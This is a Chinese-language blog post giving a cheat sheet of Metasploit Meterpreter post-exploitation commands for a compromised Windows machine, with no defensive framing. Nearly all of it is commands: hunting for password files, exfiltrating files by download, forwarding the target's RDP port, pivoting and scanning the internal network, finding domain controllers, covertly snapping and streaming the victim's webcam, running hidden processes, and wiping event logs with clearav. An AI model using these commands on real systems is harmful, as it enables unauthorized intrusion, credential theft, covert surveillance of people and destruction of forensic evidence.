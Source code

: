 ﻿---
layout: post
title: meterpreter操作命令大全
date: 2019-09-19
categories: blog
tags: [meterpreter]
description: meterpreter操作命令大全
---

###### 基本命令
```
getuid查看权限
sysinfo查看系统信息
ipconfig
netstat -ano
arp
route
getproxy
ps
idletime查看主机闲置时间
shell进入cmd
pwd
ls
cd
search -f *pass*查找文件
cat
upload /tmp/hack.txt C:\\lltest上传
download c:\\lltest\\lltestpasswd.txt /tmp/下载
edit
mkdir
rm
lpwd查看本地目录
ls
lcd
```
###### 端口转发
```
portfwd add -l 6666 -p 3389 -r 127.0.0.1 #将目标机的3389端口转发到本地6666端口
```
###### 内网扫描
```
autoroute添加路由
run autoroute -s 192.168.17.0/24添加到目标环境网络
run autoroute –p查看添加的路由

run post/windows/gather/arp_scanner RHOSTS=192.168.159.0/24
run auxiliary/scanner/portscan/tcp RHOSTS=192.168.159.144 PORTS=3389

run post/windows/gather/checkvm查看被控机器是否虚拟机
run post/linux/gather/checkvm是否虚拟机
run post/windows/gather/enum_applications查看安装软件信息
run post/windows/gather/enum_patches查看补丁
run post/windows/gather/enum_domain查找域控
```
###### webcam
```
webcam_list查看摄像头
webcam_snap拍照
webcam_stream摄像头直播
```
###### 执行文件
```
execute -H -i -f cmd.exe  创建新进程cmd.exe，-H不可见，-i交互
execute -f notepad.exe
```
#### 清除日志
```
clearav 清除windows中的应用程序日志、系统日志、安全日志
```












